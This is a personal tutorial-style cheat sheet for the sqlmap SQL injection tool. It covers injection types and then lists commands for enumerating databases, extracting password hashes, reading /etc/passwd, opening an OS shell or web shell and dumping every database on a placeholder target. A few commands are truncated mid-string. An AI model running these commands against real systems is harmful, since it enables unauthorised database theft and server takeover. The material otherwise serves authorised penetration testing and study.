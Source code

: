 
[[1. SQLi]]

## 🧠 SQLMap: **Zero to Hero – Full-Scope Exploitation Guide**


## What is SqlMap ? 

- `sqlmap` is a fully automated **SQL injection and database takeover tool.**
- *It identifies vulnerabilities, fingerprints the DBMS, enumerates  databases/tables/users, extracts data, bypasses protections, and even drops backdoors.*

## 📚 II. Core SQL Injection Types sqlmap Handles

| Injection Type                    | Description                                          |
| --------------------------------- | ---------------------------------------------------- |
| ✅ **Boolean-based Blind**         | Responses differ based on true/false logic           |
| ✅ **Time-based Blind**            | Exploits query execution delays                      |
| ✅ **Error-based**                 | Uses DB error messages to extract info               |
| ✅ **UNION-based**                 | Combines multiple SELECTs to extract data            |
| ✅ **Stacked Queries**             | Executes multiple SQL queries in one shot            |
| ✅ **Inline Query / Second-Order** | Injection occurs in one request, executed in another |

---
## 🧪 III. Phase-by-Phase sqlmap Progression

### 1️⃣ **Recon & Basic Testing**

#### 🔧 Basic GET Param Injection

`sqlmap -u "http://target.com/page.php?id=1" --batch`
#### 🔧 POST Form Field Injection

`sqlmap -u "http://target.com/login.php" --data="username=admin&password=123" --batch`

---
### 2️⃣ **Database Discovery & Enumeration**

### 🎯 List DBMS & Banner

`sqlmap -u URL --banner
### 🎯 List Databases

`sqlmap -u URL --dbs`

### 🎯 List Tables in a DB

`sqlmap -u URL -D database_name --tables`

### 🎯 List Columns in a Table

`sqlmap -u URL -D database_name -T table_name --columns`

### 🎯 Dump Table Data

`sqlmap -u URL -D database_name -T table_name --dump`

___
### 3️⃣ **Authentication Handling**

#### 🔑 Cookie-Based Injection

`sqlmap -u URL --cookie="session=abc 123*"`
#### 🔑 HTTP Basic Auth

`sqlmap -u URL --auth-type=basic --auth-cred=user:pass`
#### 🔑 Login Form Session Preservation
-  Capture request in Burp → Save to request. Txt

`sqlmap -r request. Txt --batch`

___
### 4️⃣ **Advanced Extraction Flags**

#### 🔐 Extract Passwords & Hashes

`sqlmap -u URL --passwords`

#### 🔐 Extract Usernames & Privileges

`sqlmap -u URL --users --roles --privileges`

#### 🔐 Extract File Content

`sqlmap -u URL --file-read="/etc/passwd"`

#### 💣 Upload Web Shell

`sqlmap -u URL --os-shell`

---
### 5️⃣ **Injection Target Precision**

### 🎯 Inject Into Cookie

`sqlmap -u URL --cookie="session=abc123*" --batch`

#### 🎯 Inject Into Headers

`sqlmap -u URL --headers="User-Agent: Mozilla/5.0*"`

#### 🎯 Inject Into POST Data

`sqlmap -u URL --data="search=abc*" --batch`

#### 🎯 Second-Order Injection

`sqlmap -u URL --data="username=abc" --second-order="http://targe`

---
## 6️⃣ **Payload Types and Modes**

| **Technique** | **Flag**        | **Description**     |
| ------------- | --------------- | ------------------- |
| **B**         | `--technique=B` | Boolean-based blind |
| **E**         | `--technique=E` | Error-based         |
| **U**         | `--technique=U` | UNION query-based   |
| **S**         | `--technique=S` | Stacked queries     |
| **T**         | `--technique=T` | Time-based blind    |
| **Q**         | `--technique=Q` | Inline queries      |

---
### 7️⃣ Real-World Scenarios (and flags)

#### 🔍 Authenticated Panel Injection

- Capture POST request after login
    
- Save to `login.txt`
    

`sqlmap -r login.txt --level=5 --risk=3 --technique=BEUSTQ --batch`

#### 🔍 API Token Injection

`sqlmap -u URL --headers="X-API-KEY: token123*" --batch`

#### 🔍 JSON Injection

`sqlmap -u URL --data='{"search":"abc*"}' --batch --headers="Conten`

___
# 🧠 8️⃣ Understanding sqlmap Intelligence

### 💡 Risk Levels:

|Risk|Description|
|---|---|
|1|Safe, non-destructive payloads|
|2|Adds UNION/stacked queries|
|3|Includes time-based / heavy tests|

### 💡 Level:

|Level|Description|
|---|---|
|1|Basic params (GET only)|
|5|Includes GET, POST, headers, cookies, User-Agent|

---
# 🧙‍♂️ 9️⃣ sqlmap: Black Belt Moves

## 🔄 Mirror Entire DB

`sqlmap -u URL --dump-all`